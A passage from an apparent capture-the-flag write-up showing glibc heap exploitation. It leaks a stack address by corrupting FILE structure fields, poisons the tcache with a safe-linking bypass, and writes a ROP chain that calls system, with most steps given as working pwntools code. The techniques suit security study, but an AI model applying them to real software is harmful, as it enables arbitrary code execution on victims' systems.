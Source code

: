 To avoid the `_IO_SYSSEEK` which could break stdout, we can add `_IO_IS_APPENDING` to `fp->_flags`. Then `_IO_SYSWRITE` is called and prints `(_f)->_IO_write_ptr-(_f)->_IO_write_base` bytes from `(_f)->_IO_write_base` to stdout. But that's not finished, right after we got the stack leak `new_do_write` initializes the output / input buffer to `_IO_buf_base` except for the output buffer which is initialized to `_IO_buf_end` (`_IO_LINE_BUF` not present). Thus we have to make `fp->_IO_buf_base` and `fp->_IO_buf_end` equal to valid writable pointers.

Thus we just need to:
- `fp->_flags` = (`fp->_flags` & ~(`_IO_NO_WRITES`)) | `_IO_CURRENTLY_PUTTING` | `_IO_IS_APPENDING`.
- `f->_IO_write_ptr` = `fp->_IO_write_end` = `f->_IO_buf_end` = `&environ + 8`.
- `fp->_IO_write_base` = `&environ`.

Which gives:
```py

alloc(3, 
    pwn.p64(0xfbad1800) + # _flags
    pwn.p64(environ)*3 + # _IO_read_*
    pwn.p64(environ) + # _IO_write_base
    pwn.p64(environ + 0x8)*2 + # _IO_write_ptr + _IO_write_end
    pwn.p64(environ + 8) + # _IO_buf_base
    pwn.p64(environ + 8) # _IO_buf_end
    , 0x100) 

stack = pwn.u64(io.recv(8)[:-1].ljust(8, b"\x00")) - 0x130 - 8 
# Offset of the saved rip that belongs to frame of the op_malloc function
pwn.log.info(f"stack: {hex(stack)}")

```

## ROPchain

Now we leaked the stack address we finally just need to achieve another arbitrary write to craft the ROPchain onto the `op_malloc` function that writes the user input into the requested chunk.

To get the arbitrary write we just have to use the same overlapping chunks technique than last time, let's say we wanna write to `target` and we have `prev` that overlaps `victim`:
- `free(prev)` ends up in the tcachebin (0x140), it has already been consolidated, it *already* overlaps `victim`.
- `free(victim)` ends up in the tcachebin (0x110).
- `malloc(0x130)` returns `prev`, thus we can corrupt `victim->next` and intialize it to `(target ^ ((chunk_location) >> 12)` to bypass safe-linking.
- `malloc(0x100)` returns `victim` and tcachebin (0x110) next free chunk is `target`.
- `malloc(0x100)` gives a write what where.

When we got the write what where on the stack we simply have to craft a call ot system since there is no `seccomp` shit.
Here is the script:
```py
free(1) # prev
free(2) # victim

alloc(5, b"T"*0x108 + pwn.p64(0x111) + pwn.p64((stack ^ ((heap + 0xb20) >> 12))), 0x130)
# victim->next = target
alloc(2, b"TT", 0x100)

alloc(3, pwn.p64(stack) + rop.chain(), 0x100) # overwrite sRBP for nothing lmao
# ROPchain on do_malloc's stackframe
```
